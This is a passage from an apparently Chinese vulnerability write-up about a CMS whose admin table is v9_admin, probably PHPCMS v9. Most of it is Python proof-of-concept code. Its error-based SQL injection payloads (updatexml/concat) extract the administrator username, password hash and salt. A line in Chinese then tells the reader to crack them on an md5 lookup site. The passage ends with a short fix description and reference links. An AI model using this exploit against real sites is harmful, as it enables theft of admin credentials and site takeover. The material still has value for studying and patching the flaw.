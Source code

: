 ```py
    print poc(url,payload)


def attack(url):
    print 'attach poc start'
    payload = "&id=%*27 and updatexml(1,concat(1,(select concat(username,0x3a,encrypt) from v9_admin)),1)%23&modelid=1&catid=1&m=1&f="
    username,salt = poc(url,payload).split(':')
    payload = "&id=%*27 and updatexml(1,concat(1,(select concat(0x3a,password) from v9_admin)),1)%23&modelid=1&catid=1&m=1&f="
    password1 = poc(url,payload)
    payload = "&id=%*27 and updatexml(1,concat(1,(select concat(password) from v9_admin)),1)%23&modelid=1&catid=1&m=1&f="
    password2 = poc(url,payload)[-1]
    print 'username:',username
    print 'password:',password1+password2
    print 'salt:',salt
if __name__ == '__main__':
    #print poc('http://localhost/')
    verify('http://localhost/')
```




拿到password和salt后就可以去md5上面解密了，类型选择dz,格式 password:salt


## 修复方案

![](1.png)
在v9.6.1中的修复方案是对$a_k过滤，对$id,$modelid,$catid 都用了intval函数

参考文章： 
https://paper.seebug.org/275/
http://www.venenof.com/index.php/archives/347/